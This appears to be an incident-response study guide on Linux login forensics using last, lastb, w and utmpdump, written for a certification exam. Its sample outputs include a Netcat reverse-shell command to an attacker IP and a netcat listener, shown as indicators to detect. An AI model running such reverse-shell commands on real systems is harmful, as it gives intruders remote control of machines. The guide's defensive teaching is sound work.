




# Analyzing User Login Records (`last`, `lastb`, `w`)

## TCM Exam Objectives

- Use `last -aiF` to extract successful login timelines with IP addresses and session durations
- Use `lastb -aiF` to identify SSH brute-force and password spraying via failed login aggregation
- Monitor currently active sessions with `w -i` and inspect the WHAT column for malicious commands
- Detect log clearing and anti-forensics via truncated wtmp/btmp files or "begins" timestamps matching the incident window
- Aggregate failed logins by source IP using awk to profile attacker infrastructure
- Correlate login records with auth.log, ps, and ss for complete session reconstruction
- Use `utmpdump` for raw binary reads when userland rootkits may be hooking the last command
- Identify root login from external IP via pts as a near-certain compromise indicator
- Recognize that persistent SSH key logins (publickey) show no lastb failures, only last successes

The `last`, `lastb`, and `w` commands provide the complete picture of who logged into a Linux system, from where, when, and what they are doing right now. `last` reads `/var/log/wtmp` for successful logins, `lastb` reads `/var/log/btmp` for failed attempts, and `w` reads `/var/run/utmp` for currently logged-in users and their active processes. Together they answer "Who is on this system right now and how did they get in?"

- last command with -aiF flags for successful login timeline
- lastb for brute-force and credential spraying detection
- w for active session monitoring and real-time command visibility
- wtmp and btmp binary file format and utmpdump for raw validation
- Correlation with auth.log, ps, and ss for complete session analysis
- Anti-forensic indicators: cleared wtmp, truncated logs, missing btmp



## last -- Successful Login Timeline

### Basic Invocation

```bash
last -aiF
```

Output:
```
jdoe    pts/0       192.168.1.100    Tue Jul 14 09:23:00 2024   still logged in
admin   pts/1       10.0.0.5         Tue Jul 14 08:15:32 2024 - 08:45:12 2024  (00:29)
reboot  system boot                   Mon Jul 13 16:55:17 2024   still running
```

| Column | Meaning |
|--------|---------|
| User | Account that logged in (or `reboot` for system restarts) |
| Terminal | `tty1` = physical console, `pts/0` = pseudo-terminal (SSH) |
| Source | IP address or hostname; blank for local console |
| Login time | Date and time the session started |
| Logout time | When the session ended; `still logged in` if active |

> 📌 **Exam Tip:** Always use `last -aiF` instead of plain `last`. The `-a` flag shows the hostname in the last column, `-i` displays raw IPs (no slow DNS lookups), and `-F` gives full timestamps (YYYY-MM-DD HH:MM:SS) suitable for incident reports. Without `-F`, timestamps are truncated and harder to correlate with other logs.

### Essential Flags

| Flag | Effect | SOC Benefit |
|------|--------|-------------|
| `-i` | Display IP addresses (no DNS lookups) | Immediate attacker IP |
| `-a` | Show hostname/IP in last column | Consistent column layout |
| `-F` | Full date format (YYYY-MM-DD HH:MM:SS) | Report-ready timestamps |
| `-n <N>` | Show only last N lines | Quick triage: `last -5` |
| `-f <file>` | Read rotated wtmp file | Historical analysis |
| `-x` | Show shutdowns and runlevel changes | Detect unexpected reboots |

### Intrusion Indicators in last

- **Root logging in remotely** via pts from an external IP is almost never legitimate
- **Logins at unusual hours** (e.g., 2 AM) suggest attacker activity
- **Sessions still logged in** for extended periods may be forgotten backdoors
- **Unexpected reboots** may indicate log clearing or kernel compromise
- **Truncated output** starting at the attack time suggests wtmp was cleared

## lastb -- Failed Login Blacklist

```bash
lastb -aiF
```

Output:
```
root     ssh:notty    203.0.113.42    Tue Jul 14 01:00 - 01:00  (00:00)
admin    ssh:notty    203.0.113.42    Tue Jul 14 01:00 - 01:00  (00:00)
```

> 📌 **Exam Tip:** If `lastb` returns no output or "btmp begins" at the exact time of the incident, the btmp file was likely cleared by the attacker. Cross-check with `ls -la /var/log/btmp` — a zero-byte or newly created btmp file is a strong anti-forensic indicator. Similarly, a truncated wtmp means the attacker cleaned their tracks.

### Attack Detection

```bash
# Count failures by source IP
lastb -aiF | awk '{print $3}' | sort | uniq -c | sort -nr

# Check failures from a specific IP
lastb -aiF | grep "203.0.113.42"

# View failures on a specific date
lastb -aiF | grep "Jul 14"
```

A single IP with hundreds of failures across multiple usernames indicates brute-force or password spraying. If `lastb` returns no output or "btmp begins" right at the incident time, the file may have been cleared.

## w -- Currently Logged-In Users

```bash
w -i
```

Output:
```
 10:15:23 up 1 day, 2:30, 3 users, load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
jdoe     pts/0    192.168.1.100    09:23    5.00s  0.10s  0.05s w
root     pts/1    203.0.113.42     09:58    3:20   0.00s  0.00s /usr/bin/python -c import socket...
admin    tty1     -                08:15    1:05m  0.05s  0.00s -bash
```

| Column | Security Note |
|--------|---------------|
| USER | Root on pts from external IP is a red flag |
| FROM | External IPs should be verified |
| IDLE | High idle on a shell may be a forgotten backdoor |
| WHAT | **Directly shows the current command** - may reveal reverse shell |

If `w` shows `root` from an external IP running `nc -lvnp 4444`, immediate host isolation is required.



## Raw Binary Dump with utmpdump

```bash
utmpdump /var/log/wtmp
utmpdump /var/log/btmp
```

Use `utmpdump` when you suspect `last` or `lastb` output has been tampered with. It reads the binary files directly, bypassing any userland rootkits that may hook the `last` command.

## Investigation Workflow



### Step 1: Check Current Activity

```bash
w -i
```

Identify any unexpected user, external IP, or suspicious command in the WHAT column.

### Step 2: Profile Failed Logins

```bash
lastb -aiF | head -50
lastb -aiF | awk '{print $3}' | sort | uniq -c | sort -nr
```

### Step 3: Review Successful Logins

```bash
last -aiF | head -50
last -aiF | grep "<attacker_IP>"
```

### Step 4: Trace Session Activity

```bash
# Find the attacker's TTY from last output (e.g., pts/1)
ps -t pts/1

# Check network connections from that process
ss -antp | grep <PID>
```

### Step 5: Verify Log Integrity

```bash
ls -la /var/log/wtmp /var/log/btmp
```

If file sizes are zero or the "wtmp begins" timestamp matches the incident timeline, logs were likely cleared.

## Attack Pattern Reference

| Attack | lastb / last / w Indicators |
|--------|----------------------------|
| SSH brute-force | lastb shows hundreds of failures from one IP |
| Successful compromise | last shows login from the same IP immediately after failures |
| Active reverse shell | w shows shell with FROM as external IP; WHAT shows nc or python |
| Persistence via SSH key | last shows frequent logins with no lastb failures (publickey) |
| Log clearing | last/lastb output begins at incident time; file sizes tiny |
| Active C2 beacon | w shows process with WHAT containing curl, python, or nc |

<details>
<summary>Hands-On: Compromised SSH Server</summary>

**Scenario**: Incident response on a Linux server. Commands show:

```
$ lastb -aiF
btmp begins Tue Jul 14 01:00:00 2024
root     ssh:notty    203.0.113.42   Tue Jul 14 01:00 - 01:00  (00:00)
root     ssh:notty    203.0.113.42   Tue Jul 14 01:00 - 01:00  (00:00)

$ last -aiF
wtmp begins Tue Jul 14 01:00:30 2024
root     pts/0       203.0.113.42    Tue Jul 14 01:00:30 2024   still logged in

$ w
 02:00:00 up 2 min, 1 user, load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    203.0.113.42     01:00    5.00s  0.00s  0.00s /usr/bin/nc -e /bin/bash 203.0.113.42 5555
```

**Analysis**: 
- Both wtmp and btmp were cleared at the incident time (anti-forensic indicator)
- Attacker IP: 203.0.113.42
- Only two failures before success---either the password was correct, or compromised via stolen credential
- Active Netcat reverse shell outbound to attacker's listener at 203.0.113.42:5555
- Immediate containment required: kill the process and isolate the host
</details>

## Quick Reference

```bash
# last - Successful logins
last -aiF                      # Full timeline with IPs
last -5                        # Last 5 logins
last -x                        # Include shutdowns/reboots
last -f /var/log/wtmp.1        # Read rotated wtmp

# lastb - Failed logins
lastb -aiF | head -50          # Recent failures
lastb -aiF | awk '{print $3}' | sort | uniq -c | sort -nr   # Top attack IPs

# w - Current users
w -i                           # Users with IPs, idle, current command
w -u root                      # Only root sessions

# Raw validation
utmpdump /var/log/wtmp         # Dump raw wtmp
utmpdump /var/log/btmp         # Dump raw btmp
```



## Recap

`last` reads `/var/log/wtmp` and shows successful logins with IP addresses and session durations. `lastb` reads `/var/log/btmp` and shows failed attempts for brute-force detection. `w` reads `/var/run/utmp` and displays currently logged-in users with their active commands in the WHAT column. Cleared or truncated wtmp/btmp files indicate anti-forensic activity. Always correlate with `auth.log` for detailed authentication method information and with `ps`/`ss` for session process inspection. Use `utmpdump` for raw binary validation when tampering is suspected.
